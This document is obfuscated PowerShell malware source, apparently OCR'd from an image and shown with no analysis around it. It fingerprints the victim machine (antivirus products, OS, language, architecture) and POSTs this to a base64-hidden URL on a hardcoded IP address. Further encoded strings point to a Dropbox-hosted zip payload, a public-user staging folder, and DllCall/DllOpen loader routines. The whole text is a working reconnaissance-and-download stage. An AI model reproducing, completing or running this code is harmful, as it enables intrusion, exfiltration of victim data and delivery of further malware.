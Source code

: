 function ____///////// { 
[cmdletBinding()]     
param ( 
[string]$ComputerName = "$env:computername" , 
$Credential 
) 
    BEGIN  
        { 
            $wmiQuery = "SELECT * FROM AntiVirusProduct" 
        } 
    PROCESS  
        {   $AntivirusProduct = Get-WmiObject -Namespace "root\SecurityCenter2" -Query $wmiQuery  @psboundparameters         
            $AntivirusNames = $AntivirusProduct.displayName  
            $lang  = Get-Culture 
            $lang = $lang.displayname
                
                $winds = (Get-WmiObject -class Win32_OperatingSystem).Caption
                if($env:PROCESSOR_ARCHITECTURE -eq "x86"){ $Bits =" 32-Bit CPU "}Else{ $Bits =" 64-Bit CPU "}

                $WebRequest = [System.Net.WebRequest]::Create(([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcAA6AC8ALwA4ADYALgAzADgALgAyADEANwAuADEANgA3AC8AcABzAC8AaQBuAGQAZQB4AC4AcABoAHAA'))))                                                       
                $GlobalListStr = [System.Text.Encoding]::UTF8.GetBytes("AT=$env:computername $winds  $AntivirusNames $lang $Bits  ")
                $WebRequest.Method = 'POST'
                $WebRequest.ContentType = 'application/x-www-form-urlencoded'
                $WebRequest.ContentLength = $GlobalListStr.length
                $RequestStream = $WebRequest.GetRequestStream()
                $RequestStream.Write($GlobalListStr, 0, $GlobalListStr.length)
                $RequestStream.Close()		
        } 
     END { 
         } 
}
____/////////
${_/|\_/|////\__|/_|\\_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YwBtAGQA')))
${_/|\_/|////\__|/_|\\\\\\/|_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('ZQB4AGUA')))
${__///\\\} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('LgBwAG4AZwA=')))
${_/|\_/|////\__|/_|\\\\\\/\\\\/\/\/\|_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('egBpAHAA')))
${_/|\_/|////\__|//\\\\\\\\/|_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcABzADoALwAvAHcAdwB3AC4AZAByAG8AcABiAG8AeAAuAGMAbwBtAC8AcwBjAGwALwBmAGkALwAxADUANgBrADcAdgBzADcAZAA2AGsAeQA1ADAAZwBiAG8AdQB6AHgAOQAvAG0ALgB6AGkAcAA/AHIAbABrAGUAeQA9AHUAZgBzAGUAYgBqADAANQB4AG4AYgBpAGMAdgBmAGUAMgBlADUANQBwADEAagB1AHYAJgBkAGwAPQAxAA=='))) 
${_/|_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YwA6AFwAdQBzAGUAcgBzAFwA')))
${_/|\_/|/\\\\\\\/|_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('cAB1AGIAbABpAGMA'))) 
${_/|_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YwA6AFwAdQBzAGUAcgBzAFwA'))) 
${_\\\\\\/|\_/|/\\\\\\\/|_} = "${_/|_}${_/|\_/|/\\\\\\\/|_}"
${_\\/\/\/\/\/\/\/\////\\\//\/\/\/\//_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('RwBsAG8AYgBhAGwA')))
${_\\/\/\/\/\/\/\/\////\\\//\/\/\/\////_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('RABsAGwAQwBhAGwAbAA='))) 
${_\\/\/\/\/\/\/\/\////\\\//\/\/\/\////\\\_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('UwBUAFIAVQBDAFQA')))
${_\\/\/\/\/\/\/\/\////\\\//\/\/\/\///////\\\_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('SgBMAEkAXwBHAGUAdABTAHQAZABBAHIAZwBjAA=='))) 
${_\\/\/\//\/\\/\/\/\/\////\\\//\/\/\/\///////\\\_} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('RABsAGwATwBwAGUAbgA=')))